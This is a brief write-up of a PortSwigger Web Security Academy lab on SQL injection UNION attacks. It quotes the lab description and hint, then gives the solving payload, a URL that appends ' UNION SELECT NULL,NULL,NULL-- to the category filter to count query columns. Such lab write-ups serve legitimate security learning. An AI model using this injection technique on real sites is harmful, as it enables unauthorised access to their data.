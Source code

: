 ```yaml
---
title: 'Lab: SQL injection UNION attack, determining the number of columns returned by the query'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/SQL"
---
```


# Lab: SQL injection UNION attack, determining the number of columns returned by the query
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack. 
* Hint: To solve the lab, determine the number of columns returned by the query by performing a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.


#### Exp
Payload: `https://0ab2008b04e96b8f8057358e008d00d0.web-security-academy.net/filter?category=%27%20UNION%20SELECT%20NULL,NULL,NULL--`
:::spoiler Success Screenshot
![](https://i.imgur.com/yZ3QPPF.png)
:::


## Reference